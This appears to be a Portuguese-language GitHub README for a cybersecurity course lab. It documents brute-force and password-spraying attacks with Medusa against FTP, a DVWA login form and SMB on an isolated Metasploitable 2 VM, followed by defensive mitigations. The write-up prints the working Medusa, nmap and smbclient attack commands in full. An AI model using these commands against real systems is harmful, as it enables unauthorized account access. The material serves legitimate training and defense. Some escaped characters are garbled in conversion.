






# 🛡️ Laboratório Prático: Força Bruta e Password Spraying com Medusa

Projeto prático desenvolvido durante a formação em Cibersegurança na [DIO (Digital Innovation One)](https://dio.me). O objetivo deste laboratório foi simular ataques de autenticação contra múltiplos serviços de rede em um ambiente virtual isolado e controlado, compreendendo os riscos e implementando contramedidas defensivas.

---

## 🎯 Cenário e Topologia do Laboratório

O ambiente foi configurado no **Oracle VirtualBox** utilizando o modo de rede **Placa Exclusiva de Hospedeiro (Host-Only)** para garantir que o tráfego de testes ficasse estritamente isolado da rede física:

| Máquina | Função | Sistema Operacional | Endereço IP |
| :--- | :--- | :--- | :--- |
| **Atacante** | Auditoria e Testes | Kali Linux | 192.168.56.103 |
| **Alvo** | Servidor Vulnerável | Metasploitable 2 | 192.168.56.102 |

- **Conectividade:** Validada com sucesso através de ping -c 4 192.168.56.102.

---

## 🔍 Etapas do Desafio

### 1. Reconhecimento Inicial (Nmap)
Varredura de portas abertas e detecção de versões de serviços no alvo:
\\\ash
nmap -sV 192.168.56.102
\\\
- **Porta 21/TCP:** FTP (\sftpd 2.3.4\)
- **Porta 80/TCP:** HTTP (\Apache httpd 2.2.8 (Ubuntu) DAV/2\)
- **Portas 139 e 445/TCP:** SMB (\Samba smbd 3.X - 4.X\)

---

### 2. Preparação das Wordlists
Criação de listas de palavras controladas com 10 entradas cada para testes rápidos e eficientes:
- **Caminhos:** \wordlists/usuarios.txt\ e \wordlists/senhas.txt\
- **Usuários e senhas testados:** \
oot\, \dmin\, \msfadmin\, \user\, \guest\, \	est\, \postgres\, \service\, \ubuntu\, \dministrator\.

---

### 3. Cenário 1: Força Bruta em FTP
Execução do ataque automatizado contra o serviço FTP:
\\\ash
medusa -h 192.168.56.102 -U wordlists/usuarios.txt -P wordlists/senhas.txt -M ftp -t 4
\\\
- **Credenciais válidas encontradas:** \service:service\, \user:user\, \postgres:postgres\, \msfadmin:msfadmin\.
- **Validação:** Acesso confirmado manualmente com o cliente \tp 192.168.56.102\.

---

### 4. Cenário 2: Automação em Formulário Web (DVWA)
Inspeção do formulário de login (\/dvwa/login.php\) via DevTools (F12) e execução do Medusa via módulo HTTP:
\\\ash
medusa -h 192.168.56.102 -U wordlists/usuarios.txt -P wordlists/senhas.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&login=login' \
  -m 'FAIL=Login failed' -t 6
\\\

---

### 5. Cenário 3: Enumeração e Password Spraying em SMB
1. **Enumeração de Usuários:** Mapeamento de contas ativas no Samba com \
map --script smb-enum-users -p 445 192.168.56.102\ (salvo em \wordlists/enum4_output.txt\).
2. **Password Spraying:** Teste de uma única senha comum (\msfadmin\) contra todos os usuários enumerados para contornar políticas de bloqueio de conta (*account lockout*):
\\\ash
medusa -h 192.168.56.102 -U wordlists/enum4_output.txt -p msfadmin -M smbnt -t 4
\\\

3. **Validação do Compartilhamento SMB:**
\\\ash
smbclient -L //192.168.56.102 -U msfadmin
\\\

---

## 🛡️ Medidas de Mitigação (Visão Defensiva)

### FTP (Transferência de Arquivos)
- **Substituição de Protocolo:** Migrar para **SFTP** (SSH na porta 22) ou **FTPS** (com TLS/SSL), garantindo a criptografia em trânsito de credenciais e dados.
- **Controle de Acesso:** Desabilitar login anônimo (\nonymous_enable=NO\ no \sftpd.conf\) e proibir login direto do usuário \
oot\.
- **Isolamento e Hardening:** Ativar \chroot_local_user=YES\ (Chroot Jail) para enclausurar o usuário no seu diretório pessoal.
- **Defesa Ativa:** Configurar o **Fail2Ban** para banimento dinâmico de endereços IP após múltiplas tentativas falhas.

### Aplicação Web (DVWA / Autenticação)
- **Consultas Parametrizadas:** Utilizar *Prepared Statements* (PDO/mysqli) para blindar a autenticação contra SQL Injection.
- **Mecanismos Anti-Brute Force:** Implementar Rate Limiting por IP, CAPTCHA e bloqueio temporário após *N* tentativas erradas.
- **Armazenamento Seguro:** Uso de algoritmos de hashing modernos e resistentes (Argon2id ou bcrypt com salt).
- **Segurança de Sessão:** Aplicar as flags \HttpOnly\, \Secure\ e \SameSite=Strict\ nos cookies de autenticação e forçar HTTPS.

### SMB (Samba / Compartilhamento de Redes)
- **Desativação de Protocolos Legados:** Configurar \min protocol = SMB2\ no \smb.conf\ para neutralizar falhas críticas do SMBv1 (ex: EternalBlue).
- **Bloqueio de Sessões Nulas:** Desabilitar acesso de convidados e consultas anônimas (\map to guest = Never\ e \
estrict anonymous = 2\).
- **Integridade e Criptografia:** Ativar assinatura obrigatória (\server signing = mandatory\) e criptografia no SMBv3 (\smb encrypt = required\).
- **Segmentação de Rede:** Isolar as portas 139 e 445 via firewall (UFW/iptables), liberando apenas para sub-redes autorizadas.
